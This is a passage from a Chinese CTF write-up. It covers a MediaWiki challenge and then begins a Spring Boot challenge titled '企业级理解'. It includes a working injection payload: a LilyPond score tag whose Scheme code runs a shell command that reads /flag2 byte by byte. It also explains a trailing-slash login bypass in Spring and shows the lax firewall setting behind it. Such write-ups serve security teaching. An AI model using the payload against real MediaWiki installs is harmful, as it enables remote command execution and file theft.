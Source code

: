 将会输出![](assets/mediawiki-1.png)

我们可以通过将 flag 逐字节编码进返回值的方法分多次读取, payload 如下 (将 `x` 替换成要读取的字节):

```html
<score lang="lilypond">\new Staff <<{c^#
  (number->string (
     system "return $(printf %d $(cat /flag2 | cut -b x | tr -d '\n' | od -An -t uC))"
  ))
}>></score>
```

![](assets/mediawiki-2.png)



# 企业级理解

## Flag 1: 绕过登录页面访问管理后台

Spring 的结尾斜杠问题算是老生常谈了, 写过 Spring (boot) 的很多都踩过这个坑 (还有就是蛋疼的跨域问题). 问题出在源码的第 40 行:

```java
strictHttpFirewall.setAllowBackSlash(true);
```
